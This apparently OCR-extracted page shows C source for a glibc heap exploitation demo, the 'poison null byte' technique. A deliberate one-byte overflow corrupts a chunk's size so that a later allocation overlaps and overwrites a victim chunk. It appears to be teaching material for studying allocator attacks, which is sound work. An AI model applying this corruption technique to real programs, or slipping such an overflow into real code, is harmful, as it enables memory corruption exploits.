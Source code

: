 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *c, *b1, *b2, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n", a);
    fprintf(stderr, "'real' size of 'a': %#x\n", real_a_size);

    b = (uint8_t*) malloc(0x100);
    c = (uint8_t*) malloc(0x80);
    fprintf(stderr, "b: %p\n", b);
    fprintf(stderr, "c: %p\n", c);

    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
    *(size_t*)(b+0xf0) = 0x100;
    fprintf(stderr, "b.size: %#lx ((0x100 + 0x10) | prev_in_use)\n\n", *b_size_ptr);
    
    free(b);
    uint64_t* c_prev_size_ptr = ((uint64_t*)c) - 2;
    fprintf(stderr, "After free(b), c.prev_size: %#lx\n", *c_prev_size_ptr);

    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);

    fprintf(stderr, "Pass the check: chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n", *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x80);
    memset(b1, 'A', 0x80);
    fprintf(stderr, "We malloc 'b1': %p\n", b1);
    fprintf(stderr, "c.prev_size: %#lx\n", *c_prev_size_ptr);
    fprintf(stderr, "fake c.prev_size: %#lx\n\n", *(((uint64_t*)c)-4));

    b2 = malloc(0x40);
    memset(b2, 'A', 0x40);
    fprintf(stderr, "We malloc 'b2', our 'victim' chunk: %p\n", b2);

    free(b1);
    free(c);
    fprintf(stderr, "Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

    d = malloc(0x110);
    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2': %p\n\n", d);

    fprintf(stderr, "b2 content:%s\n", b2);
    memset(d, 'B', 0xb0);
    fprintf(stderr, "New b2 content:%s\n", b2);
}
\end{verbatim}

